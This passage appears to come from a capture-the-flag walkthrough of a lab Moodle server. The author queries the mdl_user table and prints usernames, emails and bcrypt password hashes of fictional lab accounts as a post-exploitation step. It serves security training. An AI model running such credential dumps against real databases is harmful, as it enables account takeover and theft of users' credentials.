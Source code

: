     moodle@localhost [moodle]>



Moodle creates a lot of tables, but I'm interesting in any that might
contain passwords, like `mdl_user`. The table has a ton of columns, but
I really just want username, email, and password:



    moodle@localhost [moodle]> select username, email, password from mdl_user;
    +-------------------+----------------------------------------+--------------------------------------------------------------+
    | username          | email                                  | password                                                     |
    +-------------------+----------------------------------------+--------------------------------------------------------------+
    | guest             | root@localhost                         | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
    | admin             | jamie@staff.schooled.htb               | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
    | bell_oliver89     | bell_oliver89@student.schooled.htb     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
    | orchid_sheila89   | orchid_sheila89@student.schooled.htb   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |
    | chard_ellzabeth89 | chard_elizabeth89@student.schooled.htb | $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC |
    | morris_jake89     | morris_jake89@student.schooled.htb     | $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy |
    | heel_james89      | heel_james89@student.schooled.htb      | $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim |
    | nash_michael89    | nash_michael89@student.schooled.htb    | $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu |
    | singh_rakesh89    | singh_rakesh89@student.schooled.htb    | $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu |
    | taint_marcus89    | taint_marcus89@student.schooled.htb    | $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa |
    | walls_shaun89     | walls_shaun89@student.schooled.htb     | $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga |
    | smith_john89      | smith_john89@student.schooled.htb      | $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em |
    | white_jack89      | white_jack89@student.schooled.htb      | $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK |
    | travis_carl89     | travis_carl89@student.schooled.htb     | $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S |
    | mac_amy89         | mac_amy89@student.schooled.htb         | $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i |
    | james_boris89     | james_boris89@student.schooled.htb     | $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq |
    | pierce_allan      | pierce_allan89@student.schooled.htb    | $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy |
    | henry_william89   | henry_william89@student.schooled.htb   | $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu |
    | harper_zoe89      | harper_zoe89@student.schooled.htb      | $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy |
    | wright_travis89   | wright_travis89@student.schooled.htb   | $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm |
    | allen_matthew89   | allen_matthew89@student.schooled.htb   | $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq |
    | sanders_wallis89  | sanders_wallis89@student.schooled.htb  | $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u |
    | higgins_jane      | higgins_jane@staff.schooled.htb        | $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2 |
    | phillips_manuel   | phillips_manuel@staff.schooled.htb     | $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG |
    | carter_lianne     | carter_lianne@staff.schooled.htb       | $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe |
    | parker_dan89      | parker_dan89@student.schooled.htb      | $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi |
    | parker_tim89      | parker_tim89@student.schooled.htb      | $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S |
    | 0xdf              | 0xdf@student.schooled.htb              | $2y$10$AmKUmB1aYnZKMrj/LoaYeefybrcq8mBU0JmEGKiXoDJtj0EFZBjza |
    +-------------------+----------------------------------------+--------------------------------------------------------------+